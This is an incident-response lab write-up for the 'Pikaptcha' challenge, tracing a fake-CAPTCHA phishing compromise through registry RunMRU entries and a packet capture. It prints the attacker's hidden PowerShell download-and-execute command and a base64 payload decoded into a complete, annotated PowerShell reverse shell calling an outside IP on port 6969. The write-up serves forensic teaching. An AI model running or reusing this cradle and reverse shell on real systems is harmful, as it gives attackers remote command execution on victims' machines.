


# Pikaptcha
**Scenario:**
Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.

## Task 1
It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

### Registry Analysis
To analyze the registry for the user, I will use  and run all the plugins applicable to the user's registry hive and save it to a text file to go through.

```bash
PS C:\Users\analyst\Desktop\Tools\RegRipper3.0-master > .\rip.exe -r C:\Users\analyst\Desktop\Pikaptcha\C\Users\happy.grunwald\NTUSER.DAT -a > C:\Users\analyst\Desktop\Pikaptcha\Registry\happyNT.txt
```
After going through the text file, I found the flag as part of the 

```text
runmru v.20200525
(NTUSER.DAT) Gets contents of user's RunMRU key

RunMru
Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
LastWrite Time 2024-09-23 05:07:45Z
MRUList = ba
a   %tmp%\1
b   powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"\1
```

### RunMRU Forensics
RunMRU is a registry key contained in each user's registry hive. It logs each input when you run anything from the Run dialogue box (Win+R). For that reason, RunMRU is a known valuable forensics artifact to examine. Since it's an easy way of executing programs, the threat actor may have used it as a way to execute their payload or may have tricked a user into running the malicious command.

### Flag
```text
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"
```

## Task 2
At what time in UTC did the malicious payload execute?

## Explanation
Because the last write time in the RunMRU key was the malicious powershell command, we can assume that the last write tag for that key is also the time of execution for the payload.

### Flag
```text
2024-09-23 05:07:45
```

## Task 3
The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

### Investigation
To get the contents of the powershell script, we can use  to view the contents of the script since they used unencrypted HTTP to download the script and execute it in memory.

After opening the packet capture with wireshark, we can filter the data to only show network communications going to the IP address "43.205.115.44" and has the URI that is requested to get the powershell script from the attacker infrastructure. 
Filter: 
```text
**ip.dst==43.205.115.44 && http.request.uri == "/office2024install.ps1"**
```
After identifying the http request, we can **Right click on the packet > Follow > Follow > HTTP Stream** or alternatively you can click on the packet and use the shortcut, **Ctrl + Alt + Shift + H**  


The http stream will show us the http communication from the compromised host to the attacker infrastructure, revealing the contents of the remotely hosted powershell script. This technique can be used to recover any files transfered over the web over unencrypted traffic.

HTTP Stream:  



In the image provided we can see the HTTP stream containing base64 encoded powershell. The -e flag is used to specify the command is encoded. To work with the data, we can use GCHQ's . Below is the raw base64 encoded blob.
```powershell
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIANAAzAC4AMgAwADUALgAxADEANQAuADQANAAiACwANgA5ADYAOQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

After adding **"From base64"** and **"Remove null bytes"**, we get the malicious poweshell code. I've added a newline after each semicolon and included comments to better explain the functionality of the code.
```powershell
# Prepares a TCP connection to the attacker infrastructure over port 6969
$client = New-Object System.Net.Sockets.TCPClient("43.205.115.44",6969);

# Get the network stream from an existing TcpClient ($client must already be connected)
$stream = $client.GetStream();

# Allocate a 65,536-byte buffer (byte array) initialized to zeros for reading incoming data
[byte[]]$bytes = 0..65535|%{0};

# Loop: read from the TCP stream until Read() returns 0 (remote closed connection)
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  # Convert the received bytes (0 .. $i-1) into an ASCII string -> the incoming command
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);

  # Execute the received string as PowerShell code and capture stdout + stderr as a single string
  $sendback = (iex $data 2>&1 | Out-String );

  # Append a simple PowerShell-like prompt containing the present working directory
  # This makes the connection interactive from the attacker's perspective.
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";

  # Encode the response string back into ASCII bytes for sending over the TCP stream
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);

  # Send the encoded response bytes back to the remote host
  $stream.Write($sendbyte,0,$sendbyte.Length);

  # Flush the stream to ensure data is transmitted immediately
  $stream.Flush()};

# Close the client socket when the loop ends (connection closed)
$client.Close()
```
